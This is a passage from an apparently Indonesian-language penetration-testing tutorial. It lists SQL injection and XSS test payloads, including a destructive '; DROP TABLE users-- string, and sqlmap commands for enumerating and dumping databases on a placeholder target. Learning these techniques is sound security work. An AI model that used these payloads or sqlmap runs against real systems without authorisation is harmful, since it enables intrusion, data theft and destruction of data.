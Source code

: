 ##### SQL Injection Testing
```
1. Identify injection points
2. Test with basic payloads:
   - ' OR '1'='1
   - ' UNION SELECT NULL--
   - '; DROP TABLE users--

3. Use SQLMap integration
4. Analyze database structure
5. Extract sensitive data
```

##### XSS Testing
```
1. Identify input fields
2. Test with payloads:
   - <script>alert('XSS')</script>
   - <img src=x onerror=alert('XSS')>
   - javascript:alert('XSS')

3. Test different contexts:
   - HTML context
   - Attribute context
   - JavaScript context
   - CSS context
```

### 4. SQLMap - Automated SQL Injection Tool

#### Instalasi
```bash
# Kali Linux (pre-installed)
sqlmap

# Manual installation
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python sqlmap.py
```

#### Basic Usage
```bash
# Test single URL
sqlmap -u "http://target.com/page.php?id=1"

# Test with POST data
sqlmap -u "http://target.com/login.php" --data="username=admin&password=pass"

# Use request file from Burp
sqlmap -r request.txt

# Specify parameter to test
sqlmap -u "http://target.com/page.php?id=1&name=test" -p id

# Database enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Table enumeration
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# Column enumeration
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump data
```